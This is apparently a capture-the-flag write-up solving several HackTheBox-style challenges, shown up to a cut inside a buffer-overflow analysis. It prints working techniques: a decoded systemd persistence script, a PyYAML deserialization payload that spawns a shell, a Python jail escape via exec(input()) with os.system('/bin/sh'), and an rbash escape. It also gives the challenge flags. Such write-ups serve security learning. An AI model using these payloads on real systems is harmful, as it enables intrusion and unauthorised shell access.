





## Forensics
### Extraterrestrial Persistence
>There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?
__Difficulty: very easy__
---
For this challenge we are provided with a small `persistence.sh` script. Within the code, we see base64 encoded information being directed to a file service.service, then being called:
```bash
echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

We can decode this base64 ourselves and have a better idea on what is being done
```bash 
$ echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```
Just like that, we find the flag: `HTB{th3s3_4l13nS_4r3_s00000_b4s1c}`


## Misc
### Hijack
>The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?
__Difficulty: easy__
---
We are given an IP address and port to nc into:
```bash
nc 159.65.94.38 30109
```

Upon connection, we are greeted with a simple menu system:
```bash
<------[TCS]------>
[1] Create config                                                                                                                                                                                                                          
[2] Load config                                                                                                                                                                                                                            
[3] Exit
```

Trying to create a config, we see very few input checks in place:
```bash
> 1                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                           
- Creating new config -                                                                                                                                                                                                                    
Temperature units (F/C/K): A                                                                                                                                                                                                               
Propulsion Components Target Temperature : B                                                                                                                                                                                               
Solar Array Target Temperature : C                                                                                                                                                                                                         
Infrared Spectrometers Target Temperature : D                                                                                                                                                                                              
Auto Calibration (ON/OFF) : E                                                                                                                                                                                                              
                                                                                                                                                                                                                                           
Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6IEQsIGF1dG9fY2FsaWJyYXRpb246IEUsIHByb3B1bHNpb25fdGVtcDogQiwKICBzb2xhcl9hcnJheV90ZW1wOiBDLCB1bml0czogQX0K                                        
Uploading to ship...                                                                                                                                                                                                                       
                                                                                                                                                                                                                                              
```

The returned serialized config looks to be base64 encoded, so let's see what this contains:
```bash
$ echo "ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6IEQsIGF1dG9fY2FsaWJyYXRpb246IEUsIHByb3B1bHNpb25fdGVtcDogQiwKICBzb2xhcl9hcnJheV90ZW1wOiBDLCB1bml0czogQX0K" | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: D, auto_calibration: E, propulsion_temp: B,
  solar_array_temp: C, units: A}
```

It looks like our config options that we created. However, loading this config fails even though creation was successful. A quick google search indicates that this `!!python/object:__main__` syntax is from PyYAML. There is a page on hacktricks that details how one might go about exploiting this: https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization

Under RCE category, we see it might be possible to execute shell command with the right syntax.
Testing the exploit:
```bash
$ echo '!!python/object/apply:subprocess.Popen                                                                                                                                                       
- ls' | base64
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscwo=
```
Loading base64 config:
```bash
<------[TCS]------>
[1] Create config                                                                                                                                                                                                                          
[2] Load config                                                                                                                                                                                                                            
[3] Exit                                                                                                                                                                                                                                   
> 2                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                           
Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscwo=                                                                                                                                                    
** Success **                                                                                                                                                                                                                              
Uploading to ship...                                                                                                                                                                                                                       
                                                                                                                                                                                                                                           
<------[TCS]------>                                                                                                                                                                                                                        
[1] Create config                                                                                                                                                                                                                          
[2] Load config                                                                                                                                                                                                                            
[3] Exit                                                                                                                                                                                                                                   
> chall.py                                                                                                                                                                                                                                 
flag.txt                                                                                                                                                                                                                                   
hijack.py
```

`ls` is successfully executing! Now to read the flag.

I had some trouble producing a payload that would simply cat the flag.txt file. Presumably, my payload setup was not suitable for a command with several words (cat flag.txt), so to work around this I simply spawned a shell:
```python
!!python/object/apply:subprocess.Popen
- sh
```

```bash
$ cat payload | base64 
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBzaAo=
```

```bash
<------[TCS]------>
[1] Create config                                                                                                   
[2] Load config                                                                                                     
[3] Exit                                                                                                            
> 2                                                                                                                 
                                                                                                                    
Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBzaAo=                             
** Success **                                                                                                       
Uploading to ship...                                                                                                
                                                                                                                    
<------[TCS]------>                                                                                                 
[1] Create config                                                                                                   
[2] Load config                                                                                                     
[3] Exit                                                                                                            
> cat flag.txt                                                                                                      
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```

`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`

### Janken
>As you approach an ancient tomb, you're met with a wise guru who guards its entrance. In order to proceed, he challenges you to a game of Janken, a variation of rock paper scissors with a unique twist. But there's a catch: you must win 100 rounds in a row to pass. Fail to do so, and you'll be denied entry.
__Difficulty: easy__
---
In this challenge we are given a compiled binary called janken. Upon running it, we can view the rules for the game:
```bash
$ ./janken 


                                                                                                                    
                         ▛▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▜                                                                         
                         ▌   じ ゃ ん 拳  ▐                                                                        
                         ▙▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▟                                                                         
                                                                                                                    
                                                                                                                    
1. ℙ ∟ ₳ Ұ                                                                                                          
2. ℜ ℧ ∟ Ӗ ⅀                                                                                                        
                                                                                                                    
>> 2                                                                                                                
                                                                                                                    
▛▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▜                                          
▚  [*] Rock     is called "Guu"   (ぐう).                                ▞                                          
▞  [*] Scissors is called "Choki" (ちょき).                              ▚                                          
▚  [*] Paper    is called "Paa"   (ぱあ).                                ▞                                          
▞                                                                        ▚                                          
▚  1. Rock > scissors, scissors > paper, paper > rock.                   ▞                                          
▞  2. You have to win [100] times in a row in order to get the prize. 🏆 ▚                                          
▙▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▂▟ 
```

To win, we must win 100 games of rock paper scissors in a row. If left up to chance, this is not realistic. There must be a way to force a win. I recall seeing this same problem presented in another CTF competition, picoCTF 2022. (RPS in Binary Exploitation category). In that challenge, the win condition was only checking if the player's input contained the winning string. So, by playing all 3 options at once you were guaranteed to win. We can try that here as well:
```bash
>> 1                                                                                                                
[!] Let the game begin! 🎉                                                                                          
                                                                                                                    
                                                                                                                    
[*] Round [1]:                                                                                                      
                                                                                                                    
Choose:                                                                                                             
                                                                                                                    
Rock 👊                                                                                                             
Scissors ✂                                                                                                          
Paper 📜                                                                                                            
                                                                                                                    
>> rock,paper,scissors                                                                                              
                                                                                                                    
[!] Guru's choice: scissors                                                                                         
[!] Your  choice: rock,paper,scissors                                                                               
                                                                                                                    
[+] You won this round! Congrats!                                                                                   
                                                                                                                    
[*] Round [2]: 
```
The syntax was a little picky, but we see a guaranteed winning combination with `rock,paper,scissors`.

Writing out `rock,paper,scissors` 100 times in a row is boring and tedious, so I channeled my inner programmer and spent twice as long making a script that will do it for me:
```python
from pwn import *

p = remote('178.62.64.13', 31174)
win = 'rock,paper,scissors'

#Start game 1 and chain
p.sendline('1')

#Looping sendline is too fast, so I wait for interactive marker >>
for i in range(100):
    p.sendlineafter('>>',win)

response = p.recvallS()
print(response)
```

Now to acquire the flag in extra speedy fashion:
```bash
$ python RPS.py
[+] Opening connection to 178.62.64.13 on port 31174: Done
[+] Receiving all data: Done (223B)
[*] Closed connection to 178.62.64.13 port 31174
 
[!] Guru's choice: rock                                                                                             
[!] Your  choice: rock,paper,scissors                                                                               
                                                                                                                    
[+] You won this round! Congrats!                                                                                   
[+] You are worthy! Here is your prize: HTB{r0ck_p4p3R_5tr5tr_l0g1c_buG}
```

`HTB{r0ck_p4p3R_5tr5tr_l0g1c_buG}`

### Nehebkaus Trap
>In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?
__Difficulty: medium__
---
Connecting to the nc link, we find that it's a trap:
```bash
 nc 104.248.169.117 32684
    __
   {00}                                                                                                             
   \__/                                                                                                             
   /^/                                                                                                              
  ( (                                                                                                               
   \_\_____                                                                                                         
   (_______)                                                                                                        
  (_________()Ooo.                                                                                                  
                                                                                                                    
[ Nehebkau's Trap ]                                                                                                 
                                                                                                                    
You are trapped!                                                                                                    
Can you escape?
>
```

Various shell commands do not work, and we quickly find that several critical inputs are blacklisted, such as single and double quotes, or dots.
The snake is our first subtle hint, we are likely trapped in a python jail! There is a posting on [hacktricks that covers this type of problem](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes). Unfortunately, most of the suggestions will not work for us with restrictions on dot, quotes, space and even uderscores. We can, however, print the globals and locals:

```python
> print(globals())                                                                                                  
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f37eeb47c10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/./jail.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'time': <module 'time' (built-in)>, 'BLACKLIST': ('.', '_', '/', '"', ';', ' ', "'", ','), 'Color': <class '__main__.Color'>, '_print': <function _print at 0x7f37eeba3d90>, 'banner': <function banner at 0x7f37eeae2c20>, 'loop': <function loop at 0x7f37eeae2cb0>, '_': 2}

> print(locals())                                                                                                   
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
{'banned': [], 'inp': 'print(locals())'}
```

If it wasn't found through trial and error yet, we can see the full list of blacklisted characters here:
```python
BLACKLIST': ('.', '_', '/', '"', ';', ' ', "'", ',')
```
Under `globals` we find builtins is present. We must rely on these builtin functions to escape the jail and find our flag. A list of builtin functions can be found [here](https://docs.python.org/3/library/functions.html). Input() caught my eye, as perhaps we can supply stdin that might not be checked through the blacklist:
```python
> a=input()                                                                                                         
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
Error: invalid syntax (<string>, line 1)
```
Unfortunately, I received an error before being able to input anything for variable declaration. However, trying `input()` on its own seems to work as I expected:
```python
> input()                                                                                                           
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
'"'"Test aWE$%                                                                                                      
>
```
Here we see no blacklist notice despite putting several blacklisted characters. Perhaps we can use input in a different way? Next I tried `input` in combination with `exec`:

```python
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
print("This is a test.")                                                                                            
This is a test.
>
```
The print worked, and again no notice on blacklisted functions. From here there are several ways to read a flag. Since I wasn't sure what the flag was named or where it might be, I decided to create a shell session using a [gtfobins](https://gtfobins.github.io/) payload:
```python
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
import os; os.system("/bin/sh")

whoami
ctf  

ls                                                                                                                  
flag.txt                                                                                                            
jail.py 

cat flag.txt                                                                                                        
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}
```

`HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`

### Persistence
>Thousands of years ago, sending a GET request to **/flag** would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.
__Difficulty: very easy__
---
The objective for this problem is very straightforward: send a /GET request to IP:PORT/flag and you will receive the flag after ~1000 attempts.  1000 attempts is a rather high number to reach manually, so creating a loop for curl is the way to go:
```bash
#!/bin/bash
for i in {1..1000}
do
        curl -s 165.232.100.46:31980/flag 
done
```
-s flag makes the curl request silent, otherwise we will get transmission informations on every curl attempt. This loop only runs for 1000 attempts, but if you're watching the program you can have it set to run indefinitely and just manually close it when the flag is seen.
Running the script:
```bash
$ chmod +x loop.sh
$ ./loop.sh | grep "HTB"
```
grep allows us to filter any uninteresting output and only shows our flag.
Eventually, we see the results pop out at us.
```
HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}jW&z3]X8CLb5Q7kR
```
The flag information includes only HTB and the content in brackets. A cleaner grep would have extracted only the flag.
Overall, it seems output of the flag is based on a ~0.1% chance. On average, you will get the flag within 1000 requests but not always.
`HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}`

### Restricted
>You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment?
__Difficulty: easy__
---
By exploring the provided sshd_config file, we can see for the user restricted we are permitted empty passwords. And so, our entry into the system is through ssh as the user restricted:
```bash
$ ssh restricted@167.99.86.8 -p 32608
Linux ng-restricted-rtgbl-c6f644c76-t5z7n 5.18.0-0.deb11.4-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.16-1~bpo11+1 (2022-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar 23 23:40:20 2023 from 167.99.86.8
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$
```
Upon entry, we can check a few commands and see extremely limited options. We are unable to do traditional navigation commands such as `ls` or `cd`. However, we do have access to other powerful bash builtins such as `echo` and `read`. We can use `echo` to browse directories in a similar manner to `ls`:
```bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo .*
. .. .bash_history .bash_logout .bash_profile .bashrc .bin .profile
```

In our current directory, there is nothing that looks like a flag. Checking elsewhere:
```bsh
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo /*
/bin /boot /dev /etc /flag_8dpsy /home /lib /lib64 /media /memories.dump /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

`flag_8dpsy` looks like a potential candidate. To view, we can leverage `echo` and `read` together:

```bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ read IFR < /flag_8dpsy; echo $IFR
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

---
Alternative Method, selecting `bash` as ssh terminal.

User restricted has its default terminal set to rbash, the restricted terminal we previously worked in. However, we can just as easily pick our own terminal agent at ssh launch:

```bash
$ ssh restricted@167.99.86.8 -p 32608 -t bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ whoami
restricted
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ cat /flag_8dpsy 
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```
`HTB{r35tr1ct10n5_4r3_p0w3r1355}`

## Pwn
### Labyrinth
>You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.
__Difficulty: easy__
---
We are given a labyrinth executable:
```
$ file labyrinth    
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols        No    0  4labyrinth
```

We see this is a non stripped ELF 64-bit binary, and `checksec`  reveals no canary and no PIE.

Running labyrinth, from the very start, we are given a choice between 100 options:
```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>> 1 

[-] YOU FAILED TO ESCAPE!
```

An incorrect answer exits the program. We can try to go through this manually, but we can also find the answer in the file itself:
```
$ cat labyrinth
<..SNIP..>
                                                                                                                   
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                                                                                 
▒-▸        ▒           ▒          ▒                                                                                 
▒-▸        ▒     O     ▒          ▒                                                                                 
▒-▸        ▒    '|'    ▒          ▒                                                                                 
▒-▸        ▒    / \    ▒          ▒                                                                                 
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒                                                                                 
                                                                                                                    
Select door:                                                                                                        
                                                                                                                    
Door: 00%d Door: 0%d Door: %d                                                                                       
>> 69069                                                                                                            
You are heading to open the door but you suddenly see something on the wall:                                        
                                                                                                                    
"Fly like a bird and be free!"                                                                                      
                                                                                                                    
Would you like to change the door you chose?                                                                        
                                                                                                                    
>>
<..SNIP..>
```

We can see `69069`, likely accepting valid answers for both 69 and 069.

```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070 
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080 
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090 
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100 

>> 69

You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>> 69

[-] YOU FAILED TO ESCAPE!
```

We progressed one stage, but we are still stuck. Is this second input expecting a number, or something else?
```
Fly like a bird and be free!"

Would you like to change the door you chose?

>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[-] YOU FAILED TO ESCAPE!

zsh: segmentation fault  ./labyrinth
```

We reached a segmentation fault, so this might be a target for buffer overflow.

Using Radare2 to find win address:
```
r2 labyrinth                                                                             
 -- º|<|<|  -( glu glu glu, im the r2 fish )
[0x00401140]> aaaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Scanning for strings constructed in code (/azs)
INFO: Finding function preludes (aap)
INFO: Enable anal.types.constraint for experimental type propagation
[0x00401140]> afl
0x00401140    1     42 entry0
0x00401180    4     31 sym.deregister_tm_clones
0x004011b0    4     49 sym.register_tm_clones
0x004011f0    3     28 sym.__do_global_dtors_aux
0x00401220    1      2 sym.frame_dummy
0x00401670    1      1 sym.__libc_csu_fini
0x00401255    5    208 sym.escape_plan
0x00401030    1      6 sym.imp.putchar
0x00401130    1      6 sym.imp.fwrite
0x004010c0    1      6 sym.imp.fprintf
0x004010f0    1      6 sym.imp.open
0x00401100    1      6 sym.imp.perror
0x00401120    1      6 sym.imp.exit
0x00401090    1      6 sym.imp.fputc
0x004010a0    1      6 sym.imp.read
0x00401080    1      6 sym.imp.close
0x00401674    1      9 sym._fini
0x0040137b    1     51 sym.banner
0x00401050    1      6 sym.imp.puts
0x00401610    4     93 sym.__libc_csu_init
0x00401222    1     51 sym.cls
0x00401060    1      6 sym.imp.printf
0x00401170    1      1 sym._dl_relocate_static_pie
0x00401405   15    510 main
0x00401325    1     86 sym.read_num
0x00401110    1      6 sym.imp.strtoul
0x00401000    3     23 sym._init
0x004013ae    1     87 sym.setup
0x004010e0    1      6 sym.imp.setvbuf
0x00401070    1      6 sym.imp.alarm
0x00401040    1      6 sym.imp.strncmp
0x004010b0    1      6 sym.imp.fgets
0x004010d0    1      6 sym.imp.malloc
```

`sym.escape_plan` looks interesting by name, and the size also suggests there might be a few things going on.

```
pdf @ sym.escape_plan 
┌ 208: sym.escape_plan ();
│           ; var uint32_t fildes @ rbp-0x4
│           ; var void *buf @ rbp-0x5
│           0x00401255      55             push rbp
│           0x00401256      4889e5         mov rbp, rsp
│           0x00401259      4883ec10       sub rsp, 0x10
│           0x0040125d      bf0a000000     mov edi, 0xa                ; int c
│           0x00401262      e8c9fdffff     call sym.imp.putchar        ; int putchar(int c)
│           0x00401267      488b05a22d00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404010:8]=0                             
│           0x0040126e      4889c1         mov rcx, rax                ; FILE *stream
│           0x00401271      baf0010000     mov edx, 0x1f0              ; 496 ; size_t nitems
│           0x00401276      be01000000     mov esi, 1                  ; size_t size
